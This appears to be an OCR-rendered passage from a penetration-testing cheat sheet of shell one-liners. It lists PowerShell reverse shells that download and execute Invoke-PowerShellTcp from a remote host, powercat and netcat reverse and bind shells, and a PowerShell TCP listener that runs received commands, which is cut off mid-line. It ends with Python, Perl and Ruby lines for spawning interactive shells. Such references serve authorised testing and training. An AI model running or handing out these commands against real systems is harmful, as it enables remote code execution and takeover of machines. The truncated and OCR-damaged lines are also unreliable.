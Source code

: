 ```
powershell.exe iex (iwr http://<IP>/Invoke-PowerShellTcp.ps1 -usebasicparsing);Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <PORT>
```

```
powershell iex (New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <PORT>
```

#### Powercat
```
powercat -c <IP> -p <PORT> -e cmd.exe
```

### Bind shells
#### Netcat
```
nc -nlvp <PORT>
```

#### Powershell
```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('<IP>',<PORT>);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'P
```

#### Powercat
```
powercat -l -p <PORT> -e cmd.exe
```

### Spawn TTY Shells
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

```
echo os.system('/bin/bash')
```

```
/bin/sh -i
```

```
perl —e 'exec "/bin/sh";'
```

```
perl: exec "/bin/sh";
```

```
ruby: exec "/bin/sh"
```
